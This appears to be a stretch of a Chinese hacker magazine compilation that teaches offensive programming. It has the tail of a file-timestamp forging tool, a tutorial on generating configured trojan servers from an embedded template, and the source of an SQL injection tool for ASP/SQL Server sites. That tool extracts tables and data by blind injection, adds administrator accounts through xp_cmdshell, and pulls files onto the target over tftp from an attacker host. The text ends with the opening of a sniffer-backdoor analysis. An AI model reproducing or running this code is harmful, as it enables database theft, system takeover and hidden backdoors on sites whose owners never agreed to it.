  WriteLn('Usage: FileDate <test.exe> <2000-01-01>');
  WriteLn('Usage: FileDate <test.exe> <2000-01-01-08:08:08>');
  WriteLn('Usage: FileDate <c:\winnt\test.exe> <2000-01-01-06:06:06>');
  ExitProcess(0);
end;
// 执行修改时间步骤
begin
  ShortDateFormat := 'YYYY-MM-DD-HH:MM:SS';
  // 设定日期格式;
  if Length(ParamStr(1)) < 1 then DoExit;
  if Length(ParamStr(2)) < 1 then DoExit;
  YHB_1:=ParamStr(1);
  YHB_2:=ParamStr(2);
  try
    SetFileDateTime(Pchar(YHB_1),ftCreation,StrToDateTime
    (YHB_2));  //设置创建时间
    SetFileDateTime(Pchar(YHB_1),ftLastAccess,
    StrToDateTime(YHB_2)); //设置访问时间
    SetFileDateTime(Pchar(YHB_1),ftLastWrite,StrToDateTime
    (YHB_2));  // 设置修改时间
  except
  end;
end.
```

好了，以上是程序的全部源代码，是我用Delphi 6.0开发的。编译后，在CMD命令下输入程序的名称filedate.exe，就可以根据命令提示对文件的时间做修改操作了。

适合读者：程序员，木马爱好者
前置知识：汇编基础，C语言基础

### 木马变形原理

文/图 叶子

对于经常玩木马的朋友来说，肯定注意到现在互联网上有许多木马在解压缩之后只会有一个客户端程序，用户可以通过在客户端的一些设置工作来自动生成针对性比较强的服务端程序，例如特定的端口、击键木马的邮件地址、密码、SMTP服务器等。

在本文中，我将简要地探讨这一技术的实现。从“生成”的这个事实来看，我们可以猜想客户端程序可能本身带有一段自定义的二进制数据，这段二进制数据实质上就是一个服务端的模板。在用户进行了设置工作之后，客户端就会将设置完成的这些特定数据填充到这个模板之中，然后再通过写文件的操作将这段已经配置完毕的二进制数据模板生成一个特定的服务端程序，如图1 所示。

打个比方来说，邮编局有很多空白的信封。我们在买下一个信封之后，在信封上填写邮政编码、收件人地址和姓名，然后再将我们的信件装入信封糊好，这就成为了我们所特有的一封信件了——不知道我这么解释大家是不是能明白。


下面先实现一个名为“MsgBox 生成器”的演示程序，这里我们可以在客户端进行MessageBox的标题和文本的设置，然后程序就会在C:\下生成一个名为MsgBox.exe的“Hello, World”程序，这个弹出的MessageBox就是我们先在客户端所设置的那样。运行界面如图2 所示。

好了，那么我们先来设计生成服务端的功能。为了十分地模仿木马程序，这


#### 编程解析
> 栏目编辑 ) socket ) socket@hacker.com.cn

里使用Win32 ASM来编写服务端程序,代码如下

```asm
.386
.model flat, stdcall
option casemap:none
include \masm32\include\windows.inc
include \masm32\include\kernel32.inc
includelib \masm32\lib\kernel32.lib
include \masm32\include\user32.inc
includelib \masm32\lib\user32.lib

.data
szTitle db "Hello", 0
szText db "Hello, World", 0

.code
start:
    invoke MessageBox, NULL, addr szText, addr szTitle, MB_OK or MB_ICONINFORMATION
    invoke ExitProcess, NULL
end start
```

我们可以利用MASM32将这段源代码编译链接,生成一个MsgBox.exe,在此我就利用这个程序来充当我要生成的服务端。

现在需要考虑的问题是,如何将这个MsgBox.exe嵌入到客户端程序中?一个最好想,也是最直观的办法是利用一个BYTE数组来放置MsgBox.exe的二进制数据(CIH病毒就是这样,它专门准备了一个PE文件头),然后再使用API函数CreateFile将这段二进制数据写成文件。部分代码如下:

```c
BYTE bySrvData[] = {
    0x4d, 0x5a, 0x90, 0x00, 0x03, 0x00, 0x00, 0x00, 0x04, 0x00, 0x00, 0x00, 0xff, 0xff, 0x00, 0x00,
    0xb8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    // 由于篇幅略去以下所有数据一一详...
};
BOOL CreateServer()
{
    HANDLE hFile;
    DWORD dwWritten;
    hFile = CreateFile("C:\\MsgBox.exe", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
    if (hFile == NULL)
        return FALSE;
    WriteFile(hFile, (LPCVOID)bySrvData, sizeof(bySrvData), &dwWritten, NULL);
    CloseHandle(hFile);
    return TRUE;
}
```

好了,代码到此为止。虽然它可以胜利完成任务,但是我们都一定不愿意编写这样的代码——对于MsgBox.exe的数据部分,它实在太冗长了(我算了一笔账,对于编译完成的MsgBox.exe,它只有不到3KB的大小,但是如果把它的二进制数据像上面那样保存成文本文件,这个文本文件就会有15KB的体积)。况且,这仅仅是一个“Hello, World!”程序,那么换成真正的Service end of the hobbyhorse程序又会怎么样呢?而且,很多的服务端是用高级语言编写的,它们动辄会拥有几十KB的体积!

现在我们只能别无选择地换一个角度考虑如何来解决这个问题。除了用BYTE数组,还有别的方法可以将MsgBox.exe放入客户端程序中吗?答案是肯定的,那就是利用EXE文件的自定义资源。在解说如何使用自定义资源之前,我先大体介绍一下我要使用的几个API。

- FindResource: 查找一个资源。由于我们是要将这个服务端作为EXE的自定义资源形式放在EXE之中,所以在释放它之前必须首先找到它才可以。
- SizeofResource: 获得资源的尺寸,装载资源时使用。
- LoadResource: 装载资源,将资源的二进制数据装载到内存中。
- LockResource: 锁定资源,将内存中的资源数据锁定。

好了,大家可以通过查阅MSDN来了解这几个函数的详细功能及参数,这里我就不赘述了。我的整个思路如下。

1. 将MsgBox.exe作为客户端程序的二进制资源一同编译。
2. 在生成MsgBox.exe服务端的时候,使用以上的几个API函数读取这一段二进制资源数据。
3. 将这段二进制数据保存为文件。

现在我来实现第1步。首先将MsgBox.exe改名为MsgBox.bin作为一个二进制文件,并将这个文件放入客户端源代码的文件夹下。然后,向客户端的资源脚本(.rc文件)中导入这个二进制资源,如图3所示。


这时候,VC会弹出一个对话框提示,如图4所示。


我们可以在“Resource Type”中随意填写资源类型,这个类型名称就是我们将要在FindResource函数的第三个参数lpType中使用的资源类型,我这里以“Server”为例。这样,我就能够以资源的方式来使用这段数据了。我的代码如下:

```c
BOOL CreateServer()
{
    HRSRC hResInfo;
    HGLOBAL hResData;
    DWORD dwSize, dwWritten;
    HANDLE hFile;
    // 查找所需的资源
    hResInfo = FindResource(NULL, MAKEINTRESOURCE(IDR_SERVER), "Server");
    if (hResInfo == NULL)
        return FALSE;
    // 获得资源尺寸
    dwSize = SizeofResource(NULL, hResInfo);
    // 装载资源
    hResData = LoadResource(NULL, hResInfo);
    if (hResData == NULL)
        return FALSE;
    // 写文件
```

www.hacker.com.cn 2008精华本 下册


```
hFile = ::CreateFile("C:\\MsgBox.exe",
GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
if (hFile == NULL)
return FALSE;
WriteFile(hFile, (LPCVOID)LockResource(hResData),
dwSize, &dwWritten, NULL);
CloseHandle(hFile);
return TRUE;
```

到这里，如何生成服务端的问题就已经解决了，现在我来讨论如何自定义服务端的数据。我还是以一个例子来解释这个问题，下面是一段代码，也就是一个MessageBox的调用过程

```
TCHAR strContext[] = "Hello, World!";
TCHAR strTitle[] = "Hello!";
MessageBox(NULL, strContext, strTitle, MB_OK);
```

以上代码相对应的汇编代码为

```
push 0 ; 最后一个参数 MB_OK
lea eax,[ebp-18h]
push eax ; 第3个参数strTitle
lea ecx,[ebp-10h]
push ecx ; 第2个参数strContext
push 0 ; 第1个参数NULL
call dword ptr [__imp__MessageBoxA@16 (0042a2ac)] ;
函数调用
```

也就是说，MessageBox的调用过程是传入了两个字符串地址，那么我们只需要将字符串所指向的内容进行改变，就可以达到修改MessageBox显示结果的目的了。那么，又如何来确定在MsgBox.exe中那两个字符串的位置呢？在这里，我玩弄了一个小把戏，就是将原来MsgBox.asm的.data段改为

```
.data
szTitle db 100 dup('A')
szText db 100 dup('B')
```

也许有人会对这段代码颇为不解。不过我还是请大家先按照上面的步骤将这个新的源文件编译链接，然后再改名为MsgBox.bin，最后导入到客户端的资源中。现在，是不是可以打开那个二进制资源MsgBox.bin看一看，相信一定会在某个位置找到像下面这样的东西，如图5所示。


这样一来，大家就会很容易地发现，标题的相对偏移量是0x800，文本的相对偏移量是0x864——这也就是我定义那一连串'A'和'B'的用意了。

现在，就可以编写我在本文开始所提到的“MsgBox生成器”了，它的核心代码如下：

```
HRSRC hResInfo;
HGLOBAL hResData;
```

```
DWORD dwSize, dwWritten;
LPBYTE p;
HANDLE hFile;
TCHAR szTitle[100], szText[100];
// 查找所需的资源
hResInfo = FindResource(NULL, MAKEINTRESOURCE(IDR_SERVER), "Server");
if (hResInfo == NULL)
{
MessageBox(hDlg, "查找资源失败！", "错误", MB_OK | MB_ICONINFORMATION);
break;
}
// 获得资源尺寸
dwSize = SizeofResource(NULL, hResInfo);
// 装载资源
hResData = LoadResource(NULL, hResInfo);
if (hResData == NULL)
{
MessageBox(hDlg, "装载资源失败！", "错误", MB_OK | MB_ICONINFORMATION);
break;
}
// 为数据分配空间
p = (LPBYTE)GlobalAlloc(GPTR, dwSize);
if (p == NULL)
{
MessageBox(hDlg, "分配内存失败！", "错误", MB_OK | MB_ICONINFORMATION);
break;
}
// 复制资源数据
CopyMemory((LPVOID)p, (LPCVOID)LockResource(hResData), dwSize);
// 获取标题和文本，并复制数据
GetDlgItemText(hDlg, IDC_EDT_TITLE, szTitle, 100);
GetDlgItemText(hDlg, IDC_EDT_TEXT, szText, 100);
CopyMemory((LPVOID)p + 0x800, (LPCVOID)szTitle, 100);
CopyMemory((LPVOID)p + 0x864, (LPCVOID)szText, 100);
// 创建文件，写数据
hFile = ::CreateFile("C:\\MsgBox.exe",
GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
if (hFile != NULL)
WriteFile(hFile, (LPCVOID)p, dwSize, &dwWritten, NULL);
else
{
MessageBox(hDlg, "创建文件失败！", "错误", MB_OK | MB_ICONINFORMATION);
GlobalFree((HGLOBAL)p);
break;
}
// 收尾工作，释放资源
CloseHandle(hFile);
GlobalFree((HGLOBAL)p);
```

到这里，这一技术的核心部分基本上就已经讲完了。对于一个实际的特洛伊木马服务端而言，我们只需要把MsgBox的标题和文本替换为相应的端口号和邮件地址就可以了。另外，对于用C/C++、Delphi等高级语言所编写的服务端模板，它的尺寸肯定会大大超过一个汇编写成的程序，这样的话查找要替换的字符串或者数值就肯定会花些时间了，这里就不多说了。


### 黑客编程之SQL注入步步高 ——打造自己的SQL注入综合工具

适合读者: 程序员, 黑软爱好者
前置知识 C/C++基础

文/图 曹军/dangguai27

不知大家有没有注意到一件事情: 人的年龄越大、学的东西越多,那么他平时思考、总结,甚至回顾往事的机会也就越多。至少我是这样,记得一年多以前刚开始学习攻防技术的时候,在论坛上看到过某位入侵高手给出过这样一个公式: 成功的攻击行为 = 有效的攻击模式 + 灵活的攻击技术 + 丰富的攻击工具 + 足够的忍耐力。我不清楚有多少人赞同这样一个观点,但是经过这么一段时间的锻炼,我觉得自己最需要提高的就是第2个要素——灵活的攻击技术。只偏重于某一类技术的研究是不可能成为真正的黑客的,技术需要多样化、灵活化。因此除了溢出技术以外,我开始接触SQL注入。

一进门,我便狂看众高手写的关于注入方面的资料——这些资料太多了,有原理性的,有入侵实例,当然也有方法总结。看了这些东西,感觉自己很快入门了,但怎样能将这些杂乱的知识点有效地吸收呢? 我选择了将他们集成到工具的编写中去。我编写的工具SQL Injector1.0功能虽然不及小竹的NBSI和臭要饭的SQL注入工具超强组合那样强大,但至少代表了我对知识点进行整合的思路,不足之处以后也会逐步改进的。

SQL Injector1.0是针对的目标是采用ASP + SQL Server编写的站点,而不包括对Access后台数据库内容的破解,注入点扫描和分析分别如图1和图2所示。

对于ASP + SQLServer编写的站点,SQL Injector1.0的功能分为两部分: 基本功能部分和特殊功能部分。其中,基本功能部分是根据用户提交的URL,对站点中潜在的注入点进行扫描,对可能是注入点的URL进一步分析,获取站点后台相数据库的各表、字段和记录等信息; 特殊功能部分的功能是通过扩展存储过程xp_cmdshell,提供出添加系统用户、上传文件、获取Web路径等功能接口。下面是实现的思路以及部分代码,以及测试方法及测试站点源码。以下所有代码都是在Windows 2000+sp4环境下编译通过。

#### 基本功能部分

##### 1.潜在注入点的检索

根据用户输入的URL进行注入点的检索,比较有效的方法就是先获取该URL的页面信息,然后对该页面信息中的各个带参数的ASP超连接进行分析,进而找出潜在的注入点,并可起到了发散检索的效果。

请求某URL页面信息

```
typedef struct
{
	CString htmlpage;
	int szServer;
} HTMLinfo;
HTMLinfo *Requestpage(CString url)//由该函数负责
{
	Chttpsock httpsocket; // 类Chttpsock 负责winsock
	// 通信相关操作, 见附带代码
	CString strServer, strObject; // 
	unsigned short nPort; // www 服务端口
	DWORD dwServiceType; // 服务类型
	long nLength;
	const char *pRequestHeader;
	int nrecvsize = 0;
	HTMLinfo *pHTMLinfo;
	pHTMLinfo=new HTMLinfo[sizeof(HTMLinfo)];
	int num = AfxParseURL(url,dwServiceType,strServer,
	strObject, nPort); // 解析URL
	if(num==0)
	{
		pHTMLinfo->szServer=11;// 定义状态值11 来表示无法解析URL地址错误
		pHTMLinfo->htmlpage= "无法解析URL地址";
		return pHTMLinfo;
	}
	pRequestHeader = httpsocket.FormatRequestHeader(
	(LPSTR)(LPCTSTR)strServer,(LPCTSTR)LPCTSTR R)strObject,
	nLength); // 格式化HTTP请求头
	httpsocket.Socket();
	if(httpsocket.Connect((LPSTR)(LPCTSTR)strServer,nPort)
	==FALSE) // 连接URL
	{
		pHTMLinfo->szServer=10;// 定义状态值10 来表示无法连接的错误
		pHTMLinfo->htmlpage= "无法连接";
		return pHTMLinfo;
	}
	httpsocket.SendRequest(); // 发送请求头
```


```
httpsocket.SetTimeout(10000, 0); // 设置 10 秒超时
pHtmlInfo->szServer = httpsocket.GetServerState();
// 获取状态码
char pData[1024];
int nCompleteSize=0;
char szValue[30];
httpsocket.GetField("Content-Length", szValue, 30);
// 获取返回信息长度
int nFilesize = atoi(szValue);
while(nCompleteSize < nFilesize)
{
nrecvsize=httpsocket.Receive(pData,1024);//接收返回的页面信息
for(int i=0; i<nrecvsize; i++)
pHtmlInfo->htmlpage += pData[i];
nCompleteSize += nRecvsize;
}
httpsocket.CloseSocket();
return pHtmlInfo; // 获取完页面信息, 并返回
}
```

接下来,在获取的页面信息中找出所有的带参数的 ASP 超链接

```
CString page; 
page = pageinfo->htmlpage; // pageinfo 就是上面获取的页面信息
CString user_url;
user_url = Handleurl(m_url); // 取出 URL 对应页面的名称
......
while (nPosi>0)
{
nLen = page.GetLength();
nPosi = page.Find("<a href", 0);
page = page.Right(nLen - nPosi);
nLen = page.GetLength();
linkaddr = Getlinker(page);
if (linkaddr != "next")
{
Injectaddr[i] = linkaddr;
// 判断所得的链接地址是否是完整的
tail = user_url[nlength-1];
if(linkaddr.Find("http://",0)<0) // 不完全
{
if (tail!='/')
linkaddr = user_url + "/" + linkaddr;
else
linkaddr = user_url + linkaddr; // 补全
}
m_getaddr.InsertString(i+1, linkaddr);
Alinkaddr[i] = linkaddr;
i++;
}
nxtposi = page.Find('>');
page = page.Right(nLen-nxtposi);
}
nThreadNum = i;// 创建线程数
m_getaddr.InsertString(i+1, "站点扫描完成！ ");
m_progressCtrl.SetRange(0, nThreadNum);
pMainWnd = (CSqlInjectorDlg *)AfxGetMainWnd();
InitializeCriticalSection(&critical_sec);
// 针对当前每个链接地址开启一个线程来检测是否可以注入
for(i=0; i<nThreadNum; i++)
```

```
{
hGetRaddr[i] = 
CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)GetResultAddr, (LPVOID)i, NULL, NULL);
}
```

线程函数GetResultAddr负责初步判断某个连接是否具有注入点,方法是在后面加字符 '\'' :

```
DWORD WINAPI GetResultAddr(LPVOID pParam)
{
int nPos;
nPos = (int)pParam;
HTMLInfo *pageinfo;
CString page;
pageinfo=Requestpage(Alinkaddr[nPos]);
page = pageinfo->htmlpage;
int nState;
nState =pageinfo->szServer;
if( nState!=200) // 只有状态值为 200 时才能继续
{
EnterCriticalSection(&critical_sec);
pMainWnd->m_resultaddr.AddString(Alinkaddr[nPos] + " (" +page + ")");
pMainWnd->m_progressCtrl.OffsetPos(1);
LeaveCriticalSection(&critical_sec);
return 0;
}
CString injecturl;
injecturl = Alinkaddr[nPos] + "'" ; // 加上判断字符
if( !compare(page, injecturl) ) // 比较加 “'” 前后页面信息的变化
{
EnterCriticalSection(&critical_sec);
pMainWnd->m_resultaddr.AddString(Alinkaddr[nPos] + "(可能存在注入漏洞)");
pMainWnd->m_progressCtrl.OffsetPos(1);
LeaveCriticalSection(&critical_sec);
}
else
{
EnterCriticalSection(&critical_sec);
pMainWnd->m_resultaddr.AddString(Alinkaddr[nPos] + "(不存在注入漏洞)");
pMainWnd->m_progressCtrl.OffsetPos(1);
LeaveCriticalSection(&critical_sec);
}
return 0;
}
```

函数compare作用是比较加上特征字符 '\'' 后返回页面信息的变化,如果前后页面没有变化,则表示不存在注入点,否则认为可能存在,待下一步判断

```
BOOL compare(CString spage, CString url_mod)
{
CString str_mod;
HTMLinfo *phinfo;
phinfo=Requestpage(url_mod);
str_mod=phinfo->htmlpage;
if(spage==str_mod) // 页面正常返回, 表示不存在注入点
return TRUE;
return FALSE;
}
```

按照上面的过程,可能扫出某URL内的多个注入点。
我强调获取页面信息->找出超连接->注入点判断的扫描过程,首次扫描的结果只是说明了某个URL可能存在注入点。接下来,要通过该URL进一步进行分析,分析的内容包括数据库类型,数据库的连接权限,表和字段的内容等。

##### 2.注入点的进一步分析

1）判断数据库类型
首先根据某个可能是注入点的url获取其页面信息。

```
pinfo=Requestpage(m_urladdr); // m_urladdr为待分析的URL
```

然后在m_urladdr后面加上and 1=2，然后再次获取其页面信息。比较两次返回信息是否一样，如果不一样的话，进行下一步分析。

```
CString sourcepage=pinfo->htmlpage;
url_sql = m_urladdr+ "%20and%201=2";
if( !compare(sourcepage, url_sql) )
{
  // 进一步分析
}
```

通过添加and (select count(*) from sysobjects)>0判断数据库类型如果是SQL Server则正常返回。

```
url_sql = m_urladdr + "%20and%20(select%20count(*)%20from%20sysobjects)>0";
sqlinfo= Requestpage(url_sql);
nSrvState = sqlinfo->szServer;
if(nSrvState==200)
{
  // nSrvState为200则是 SQL Server
}
```

2）判断数据库连接权限和数据库名
通过添加and user>0判断数据库连接权限

```
url_sql = m_urladdr + "%20and%20user>0" ;
sqlinfo= Requestpage(url_sql);
pageinfo=sqlinfo->htmlpage; // 页面信息
nSrvState = sqlinfo->szServer;
if(nSrvState>=400 && nSrvState<=505)
{
  m_ok="尝试获得数据库连接权限(HTTP Error with wrong code:" + cs + ")";
  m_pren = Getsqlinfo(pageinfo);
  m_log +="成功取得数据库连接权限\r\n";
}
```

通过and db_name()>0获取数据库名

```
url_sql = m_urladdr + "%20and%20db_name()>0" ;
m_log += "尝试获取数据库名称\r\n";
sqlinfo= Requestpage(url_sql);
CString dbpage=sqlinfo->htmlpage;
nSrvState = sqlinfo->szServer;
cs = itoa(nSrvState,c,10);
if(nSrvState>=400 && nSrvState<=505)
{
  m_ok="尝试获得数据库名(HTTP Error with wrong code:" + cs + ")";
  m_dbname = Getsqlinfo(dbpage);
  m_log +="成功取得数据库名\r\n";
}
```

3）获取数据库表名
获取SQL Server数据库表名的方法是添加and (Select Top 1 name from sysobjects where xtype='U' and status>0 and name<>' '。已获取的表名)>0,依次读出各表名。

```
CString gettablestr;
gettablestr = "%20and%20(Select%20Top%201%20name%20from%20sysobjects%20where%20xtype='U'%20and%20status>0"
```

```
url_sql = m_urladdr + gettablestr + ")>0";
sqlinfo= Requestpage(url_sql);
dbpage=sqlinfo->htmlpage;
nSrvState = sqlinfo->szServer;
cs = itoa(nSrvState,c,10);
CString nextstr;
CString tablename;
if(nSrvState>=400 && nSrvState<=505)
{
  m_ok="尝试获得数据库中用户所建的表名(HTTP Error with wrong code:" + cs + ")";
  int i=0;
  while(nSrvState>=400 && nSrvState<=505)
  {
    tablename = Getsqlinfo(dbpage); // 提取表名，详见附带代码
    m_tblist.AddString(tablename);//在LISTBOX中进行加入表名
    nextstr += "%20and%20name<>'" + tablename + "'";
    url_sql = m_urladdr + gettablestr + nextstr + ")>0";
    sqlinfo= Requestpage(url_sql);
    dbpage=sqlinfo->htmlpage;
    nSrvState = sqlinfo->szServer;
    tbarray[i]=tablename; // tbarray为存放表名的数组
    i++;
  }
  m_log +="成功取得数据库中用户建立表名\r\n";
}
```

4）获取数据库字段名和字段值
对于指定的一个表，要获取其字段名的方法是添加and (Select Top 1 col_name(object_id(表名), 1) from sysobjects)>0。

```
void CInjectionDlg::Onchoosetablebname()
{
  int nIndex = m_tblist.GetCurSel();
  select_tb = tbarray[nIndex];
  CString url_sql; // 进行注入的地址
  HTMLinfo *sqlinfo;
  CString transstr;
  transstr = "%20and%20(Select%20Top%201%20col_name(object_id('";
  url_sql = m_urladdr + transstr + select_tb + "'),1)%20from%20sysobjects)>0";
  sqlinfo= Requestpage(url_sql);
  CString dbpage=sqlinfo->htmlpage;
  int nSrvState = sqlinfo->szServer;
  char c[3];
  CString cs = itoa(nSrvState,c,10);
  CString nextstr;
  CString fieldname;
  if(nSrvState>=400 && nSrvState<=505)
  {
    m_ok="尝试获得表"+select_tb+"的各字段名称(HTTP Error with wrong code:" + cs + ")";
    int col=1;
    int i=0;
    while(nSrvState>=400 && nSrvState<=505)
    {
      fieldname = Getsqlinfo(dbpage);
      m_fidlist.AddString(fieldname);//在listbox中进行加入表名
      col++;
      nextstr = itoa(col, c, 10);
      url_sql = m_urladdr + transstr + select_tb + "'),"+nextstr + ")%20from%20sysobjects)>0";
      sqlinfo= Requestpage(url_sql);
      dbpage=sqlinfo->htmlpage;
      nSrvState = sqlinfo->szServer;
      fdarray[i]=fieldname;
      i++;
    }
  }
}
```


```cpp
m_log += " 成功取得表" + select_tb + "中列名\r\n";
}
```

接下来获取某字段对应的值。

```cpp
char Getfield(CString table, CString field, CString url, int index, int l, int h)
{
    int nchar = 0;
    int low = l;
    int hig = h;
    int mid;
    int tmp = h - l; // 避免死循环，设置最大查找次数
    char cc[3];
    CString c_index,c_mid;
    CString testurl;
    CString sourcepage;
    HTMLInfo *p;
    p=Requestpage(url);
    sourcepage=p->htmlpage;
    while((low <= hig) && (tmp != 0))
    {
        mid = (low + hig)/2; // 计算中点值
        c_index=itoa(index,cc,10);
        c_mid=itoa(mid,cc,10);
        // 判断字段值是否小于中点值
        testurl=url + "%20and%20(select%20top%201%20ascii(substring(cast(" + field + "%20as%20char)," + c_index + ",1))%20from%20" + table + ")<" + c_mid;
        if(compare(sourcepage,testurl))
            hig = mid - 1; // 缩小扫描范围
        else
        {
            // 判断字段值是否大于中点值
            testurl=url + "%20and%20(select%20top%201%20ascii(substring(cast(" + field + "%20as%20char)," + c_index + ",1))%20from%20" + table + ")>" + c_mid;
            if(compare(sourcepage,testurl))
                low = mid + 1;
            else
            {
                // 判断字段值是否等于中点值
                testurl=url + "%20and%20(select%20top%201%20ascii(substring(cast(" + field + "%20as%20char)," + c_index + ",1))%20from%20" + table + ")" + c_mid;
                if(compare(sourcepage,testurl))
                {
                    nchar = mid; // 查找成功
                    break;
                }
            }
        }
        --tmp; // 最大查找次数减1
    }
    return (char)nchar; // 返回查找到的结果，为0说明查找失败
}
```

#### 特定功能部分

获取Web的绝对路径对将来上传木马程序是关键的。获取Web的绝对路径的方法有两种，一种是从注册表中读取，如果此方法不成功，则采用另一种方法即，将服务器上的目录结构依次下载下来进行分析。下面是示例代码

```cpp
void CInjectionDlg::OnGetpath()
{
    CString url_sql;
    url_sql = m_urladdr + "; create table [dbo].[xiaolu]([xiaoxue][char](255));--";

    HTMLInfo *p;
    p=Requestpage(url_sql);
    int nSrvState = p->szServer;
    if(nSrvState>=400 && nSrvState<=505)
        AfxMessageBox("无法新建表!");
    else
    {
        url_sql = m_urladdr + "%20DECLARE%20@result%20varchar(255)%20EXEC%20master.dbo.xp_regread%20'HKEY_LOCAL_MACHINE','SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual%20Roots','%20'/%20@result%20output%20insert%20into%20xiaolu%20(xiaoxue)%20values(@result);--";
        p=Requestpage(url_sql);
        int nSrvState = p->szServer;
        if(nSrvState>=400 && nSrvState<=505)
            AfxMessageBox("无法执行sql存储过程!");
        else
        {
            UpdateData();
            m_Webpath = "该网站的WEB路径为：";
            url_sql = m_urladdr + "%20and%20(select%20top%201%20xiaoxue%20from%20xiaolu)=";
            p=Requestpage(url_sql);
            CString dbpage = p->htmlpage;
            int nSrvState = p->szServer;
            if(nSrvState>=400 && nSrvState<=505)
            {
                m_Webpath += Getsqlinfo(dbpage); // c:\inetpub\wwwroot
            }
            url_sql = m_urladdr + ";drop%20table%20xiaolu;--";
            Requestpage(url_sql);
            UpdateData(false);
        }
    }
}
```

##### 建立系统用户

如果后台SQL Server连接用户为sa，且扩展存储过程xp_cmdshell没有被删除的话,我们就可以通过它来使对方系统执行几乎所有的系统命令。添加管理权限用户的指令是：exec master.xp_cmdshell "net user name pass /add"和exec master.xp_cmdshell "net localgroup administrators name /add"。实现代码为

```cpp
void CInjectionDlg::OnNewUser()
{
    CString sql_url;
    sql_url = m_urladdr + ";exec%20master.xp_cmdshell%20'net%20user%20" + uname + "%20"+ pwd + "%20/add\'--";
    HTMLInfo *p;
    p=Requestpage(sql_url);
    int nSrvState = p->szServer;
    if(nSrvState>=400 && nSrvState<=505)
    {
        AfxMessageBox("cmdshell执行错误！");
        exit(0);
    }
    else
    {
        sql_url = m_urladdr + ";exec%20master.xp_cmdshell%20'net%20localgroup%20" + "administrators%20" + uname+ "%20/add\'--";
        p=Requestpage(sql_url);
        nSrvState = p->szServer;
        if (nSrvState>=400 && nSrvState<=505)
        {
            AfxMessageBox("cmdshell 执行错误！ ");
            exit(0);
        }
        AfxMessageBox("成功添加了一个系统用户");
    }
}
```

```cpp
exit(0);
}
else
{
    AfxMessageBox("成功上传文件！ ");
}
}
```

##### 上传文件

文件的格式有多种,如果上传的是asp或asp.net文件,则可以让目标机器连接攻击端开设的tftp服务端,进而传送文件;也可以通过`xp_cmdshell`将文件语句逐句重定向到目标机的文件中。而对于一般的文件传送,大多通过tftp来传送

```cpp
void CInjectionDlg::OntftpLogOn()
{
    ql_url =  m_urladdr +  ";exec%20master..
xp_cmdshell%20\"tftp%20-i%20" + m_ip + "%20get%20" + PathName + "\" --";
    HTMLInfo *p;
    p=Requestpage(sql_url);
    int nSvrState = p->x2Server;
    if(nSvrState>=400 && nSvrState<=505)
    {
        AfxMessageBox("cmdshell执行错误！ ");
    }
}
```

##### 关于测试

关于测试,我在附带的代码中有一个示例站点的源码,以前是用的Access,后来通过SQL Server数据库转换功能将连接的Access数据库转换为了SQL Server数据库。大家测试的时候注意将conn.asp中的Data Source修改为你自己的SQL Server实例名就可以了。

#### 小结：

本文介绍了我将针对SQL Server+ ASP(或ASP.NET)编写的站点注入点的扫描、分析及入侵的过程整合到了工具的编写中。尽管可能还存在一些不足之处,但攻防技术本身就是要求研究者不断更新和提高的,因此希望大家能和我相互交流,共同推动大家的进步。

适合读者:程序员,后门爱好者
前置知识 C/C++语言基础

## 全面解析
### PortShell后门编程技术
文/图 Scuhkr/古开元

最近在幻影旅团BBS闲逛,看到一个热心的网友提供了一个名叫PortShell后门的源程序下载,当时就down(下载)下来看。认真把代码读了几遍后,觉得该后门有很多借鉴的地方,也存在着一些不足。后来回到黑防编程论坛,发现不少热衷黑软编程的网友正巧在咨询一些关于后门的编写问题。于是,干脆就借题发挥,以PortShell后门为样板,来探讨一下后门的相关编写技术吧!

从PortShell后门的编写思路来看,它是借鉴了小榕哥的BITS DLL后门的部分原理,或者说,该后门采用了比较流行的嗅探原理:后门服务器端其实就是一个Sniffer和发报器,平时没有端口,只是在系统中充当卧底角色,当它将捕获到指定特征的数据包时,分析该数据包,如果数据包内包含有后门激活关键字符,就激活后门线程,并根据控制端指定的方式,以实现正向连接后门或反向连接后门功能。打个比喻吧: 假如一个名叫"Server"的革命党员站在门背后竖起耳朵在监听,他在等待一个名叫"Client"的同志,他们之间的暗号就是"我是黑客",如果来了一个路过的人,敲门,说"我是微软",Server听到了,但发现暗号不对,于是不作声

也不开门,又来了一个人,敲门,说"我是IBM",还是不对,同样不管,继续监听,直到来了一个人,说"我是黑客",哈哈,Server高兴坏了,是他,然后Client说,"我来是来送情报的",Server一听,是Client来送情报(正向连接),而不是要Server自己去取情报(反向连接),好,马上开门,两人开始交流(通信)。呵呵!比喻不是很恰当,但大概就是这个意思。

下面我们从编程的角度来分析该后门吧,对于具体的函数细节,我就不多讲了,大家可以参照该后门源代码(附件portshell.rar),这里我主要给大家讲整个思路,毕竟,想要写一个好的后门程序(其实什么程序都好),思路是最主要的,而细节方面的东西,就只是体力活了(呵呵,一家之见,大家不要打我啊)。

以下内容我只列出流程和纲要,并不会对每个Win32 API做详细的讲解,如果你不了解某些API的用法和作用,应该参考MSDN,它才是最好的老师!

#### 分析第一步

该PortShell后门是一个Sniffer。Sniffer嗅探你该知道吧，写过相关的嗅探器吗？没写过也不要紧，这里我给大家介绍一下吧。如图1所示。


可以看到，Sniffer和一般的Socket编写服务器大致是一样的，即：
`WSAStartup()=>socket()=>bind()=>WSAIoctl()=>recv()`
要实现嗅探功能，首先得把网卡设置成“混杂”模式。因为在正常的情况下，一个网络接口应该只响应两种数据帧：一种是与自己硬件地址相匹配的数据帧，另一种是发向所有机器的广播数据帧。如果要网卡接收所有通过它的数据，而不管是不是发给它的，那么必须把网卡置于混杂模式，也就是说让它的思维混乱，不按正常的方式工作。这里最主要的就是`WSAIoctl()`函数，通过把该函数第二个参数设为`SIO_RCVALL`(这里也许你要自己定义它，在portshell.h头文件里如下宏定义`#define SIO_RCVALL_WSAIOW(IOC_VENDOR,1)`),我们的嗅探器才能捕获所有通过的数据。然后通过`recv()`函数，我们就可以狂抓包了。

#### 分析第二步

